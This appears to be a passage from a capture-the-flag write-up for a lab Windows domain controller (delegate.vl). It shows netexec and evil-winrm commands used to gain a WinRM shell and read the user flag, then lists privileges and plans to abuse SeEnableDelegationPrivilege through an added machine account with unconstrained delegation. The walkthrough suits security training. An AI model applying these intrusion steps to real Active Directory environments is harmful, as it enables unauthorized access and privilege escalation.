 ```bash
SMB         10.10.74.48     445    DC1              SYSVOL          READ            Logon server share
```

We do.

```bash
netexec winrm 10.10.74.48 -u N.Thompson -p '<REDACTED>'    
WINRM       10.10.74.48     5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
WINRM       10.10.74.48     5985   DC1              [+] delegate.vl\N.Thompson:<REDACTED> (Pwn3d!)
```

Connected over WinRM and read the user flag.

```
evil-winrm -u N.Thompson -p <REDACTED> -i 10.10.74.48

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami
delegate\n.thompson

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> hostname
DC1

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> type c:\users\n.thompson\desktop\user.txt
VL{<REDACTED>}
```

# PrivEsc

Listing the current user privileges shows the ‘SeEnableDelegationPrivilege’.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

Machine Account Quota is set to default (10). This means that we can add a machine and grant it with **unconstrained delegation** abusing the **SeEnableDelegationPrivilege**.
